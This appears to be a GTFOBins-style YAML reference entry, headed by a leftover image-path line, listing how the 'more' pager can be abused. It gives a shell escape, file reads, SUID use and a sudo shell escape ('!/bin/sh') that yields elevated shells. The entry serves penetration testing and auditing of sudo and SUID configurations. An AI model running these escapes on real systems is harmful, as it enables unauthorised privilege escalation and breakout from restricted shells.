 ```yaml
---
functions:
  shell:
    - code: |
        TERM= more /etc/profile
        !/bin/sh
  file-read:
    - code: more file_to_read
  suid:
    - code: ./more file_to_read
  sudo:
    - code: |
        TERM= sudo -E more /etc/profile
        !/bin/sh
---
```

